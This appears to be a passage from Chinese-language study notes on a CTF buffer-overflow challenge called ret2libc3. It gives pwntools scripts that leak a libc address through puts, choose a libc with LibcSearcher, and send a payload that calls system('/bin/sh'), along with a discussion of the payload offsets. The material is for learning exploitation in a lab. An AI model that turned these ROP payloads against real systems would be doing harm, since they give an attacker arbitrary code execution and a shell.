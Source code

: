 ```python
sh.sendline(payload) # 覆盖RA为system_addr，执行system("/bin/sh")，system的RA为0xdeadbeef

sh.interactive()
```

- 运行过程中会提示有多个libc满足当前约束。选择 7 - libc6_2.31-8_i386

```python
[+] There are multiple libc that meet current constraints :
0 - libc-2.32-1.1.i586
1 - libc6-x32_2.17-93ubuntu4_amd64
2 - libc6-x32_2.17-93ubuntu4_i386
3 - libc6_2.31-6_i386
4 - libc-2.32-4.1.i586
5 - libc6-i386_2.31-6_amd64
6 - libc6-i386_2.31-8_amd64
7 - libc6_2.31-8_i386  # 正确的libc # 选择方法：一个个试.......
8 - libc6_2.31-7_i386
9 - libc6-i386_2.31-9_amd64
[+] Choose one : 7
```



### Payload Analysis

为什么第一个payload中RA与字符串之前的偏移为112而第二个payload的为104（减少8bytes）？

```python
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got])
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
```

- 暂无理论分析，但gdb调试可以得到前后两个payload的偏移量的计算方法



#### How 2 calculate

- 使用如下脚本，将第一个 payload 的内容保存在 input 文件中。
- 疑问：使用`hexdump`显示的 input 文件与代码中输出的字节序有不同，具体原因未知

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher 
context.log_level = "DEBUG"
sh = process("./ret2libc3")

ret2libc3 = ELF("./ret2libc3")
puts_plt = ret2libc3.plt["puts"] 
libc_start_main_got = ret2libc3.got["__libc_start_main"] 
main = ret2libc3.symbols["main"] 

print("leak libc_start_main_got addr and ret to main", str(hex(puts_plt)), str(hex(main)), str(hex(libc_start_main_got)))
# puts_plt, main, libc_start_main_got: 0x08048460 0x08048618 0x0804a024
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got])
print("payload: ", payload.hex(), type(payload)) # <class 'bytes'>
# ...... 41414141 60840408 18860408 24a00408 
with open("input", "wb") as f:
    f.write(payload) 
```
